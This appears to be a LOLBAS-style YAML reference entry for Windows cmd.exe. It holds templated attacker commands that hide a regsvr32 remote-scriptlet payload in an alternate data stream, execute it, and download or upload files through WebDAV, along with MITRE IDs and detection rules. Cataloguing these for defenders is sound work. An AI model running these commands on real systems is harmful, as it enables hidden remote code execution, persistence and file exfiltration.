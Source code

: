 ```yaml
---
Name: Cmd.exe
Description: The command-line interpreter in Windows
Author: Ye Yint Min Thu Htut
Created: 2019-06-26
Commands:
  - Command: cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:{REMOTEURL:.sct} ^scrobj.dll > {PATH}:payload.bat
    Description: Add content to an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmd.exe - < {PATH}:payload.bat
    Description: Execute payload.bat stored in an Alternate Data Stream (ADS).
    Usecase: Can be used to evade defensive countermeasures or to hide as a persistence mechanism
    Category: ADS
    Privileges: User
    MitreID: T1059.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: type {PATH_SMB} > {PATH_ABSOLUTE}
    Description: Downloads a specified file from a WebDAV server to the target file.
    Usecase: Download/copy a file from a WebDAV server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: type {PATH_ABSOLUTE} > {PATH_SMB}
    Description: Uploads a specified file to a WebDAV server.
    Usecase: Upload a file to a WebDAV server
    Category: Upload
    Privileges: User
    MitreID: T1048.003
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\cmd.exe
  - Path: C:\Windows\SysWOW64\cmd.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_susp_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_ads_file_creation.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/defense_evasion_unusual_dir_ads.toml
  - IOC: cmd.exe executing files from alternate data streams.
  - IOC: cmd.exe creating/modifying file contents in an alternate data stream.
Resources:
  - Link: https://twitter.com/yeyint_mth/status/1143824979139579904
  - Link: https://twitter.com/Mr_0rng/status/1601408154780446721
  - Link: https://medium.com/@mr-0range/a-new-lolbin-using-the-windows-type-command-to-upload-download-files-81d7b6179e22
  - Link: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type
Acknowledgement:
  - Person: r0lan
    Handle: '@yeyint_mth'
  - Person: Mr.0range
    Handle: '@mr_0rng'
---
```

